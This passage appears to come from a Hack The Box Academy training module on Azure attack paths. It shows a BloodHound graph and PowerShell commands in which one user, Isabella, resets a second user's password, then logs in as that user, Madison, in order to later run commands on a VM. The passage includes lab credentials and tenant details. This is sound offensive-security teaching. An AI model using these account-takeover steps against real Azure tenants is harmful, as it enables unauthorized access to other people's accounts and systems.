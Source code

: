 **Note:** There's an option in PowerZure to read the content of the Key Vault, but it was not working properly at the time of writing this module.

## Execute Commands in Azure VM

An Azure virtual machine gives you the flexibility of virtualization without buying and maintaining the physical hardware that runs it. However, you still need to maintain the virtual machine by performing tasks such as configuring, patching, and installing the software that runs on it.

We can use BloodHound to identify the attack path from `Isabella` to the Key Vault `AZVM-01`:

![BloodHound graph showing ISABELLA.MILLER@... with AZResetPassword permission for MADISON.JOHNSON@..., who AZOwns AZVM-01.](https://academy.hackthebox.com/storage/modules/69/azurehound_VM_path.jpg)

To execute this attack, we will have to reset Madison Johnson's credentials, log in as Madison Johnson and then use the `PowerZure` module to execute command in the VM. We will also demonstrate how to do the same with the PowerShell `Az` module.

To reset Madison Johnson's password, we will have to log in as Isabella:

#### Connect as Isabella to reset Madison's password

```powershell
PS C:\Tools\PowerZure> $username = "Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com"
PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxAcademy01!" -AsPlainText -Force
PS C:\Tools\PowerZure> $IsabellaCreds = New-Object System.Management.Automation.PSCredential $username, $password
PS C:\Tools\PowerZure> Connect-AzAccount -Credential $IsabellaCreds

Account                                                  SubscriptionName TenantId                             Environment
-------                                                  ---------------- --------                             -----------
Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com                  92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

#### Reset Madison Johnson Credentials

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

#### Connect as Madison Johnson

```powershell
PS C:\Tools\PowerZure> $username = "Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com"
PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force
PS C:\Tools\PowerZure> $MadisonCreds = New-Object System.Management.Automation.PSCredential $username, $password
PS C:\Tools\PowerZure> Connect-AzAccount -Credential $MadisonCreds

Account                                                  SubscriptionName     TenantId                             Environment
-------                                                  ----------------     --------                             -----------
Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com Azure subscription 1 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```
